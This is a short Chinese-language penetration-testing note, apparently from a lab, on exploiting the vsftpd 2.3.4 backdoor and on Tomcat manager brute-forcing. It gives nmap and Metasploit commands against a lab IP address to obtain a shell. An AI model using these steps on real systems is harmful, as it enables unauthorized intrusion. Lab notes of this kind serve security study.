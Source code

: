# 系统服务方面

## vsftpd2.3.4

### 漏洞简介

当进行FTP认证时，如果用户名中包含:)，那么直接就触发监听6200端口的连接的shell。

### 漏洞利用

先用nmap扫描靶机上的21端口跑的服务的版本

```
nmap -sV -p 21 192.168.1.109 #得到回显21/tcp open  ftp     vsftpd 2.3.4
```

然后用msf进行漏洞利用

```
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set payload
set rhost 192.168.1.109
exploit
```

拿到shell



# 中间件类

## tomcat

### 漏洞简介

tomcat的web端管理界面,可以通过密码爆破以后拿到控制权,部署恶意程序后拿到shell

### 漏洞利用

```
nmap -sV -p 8180 192.168.1.109
```

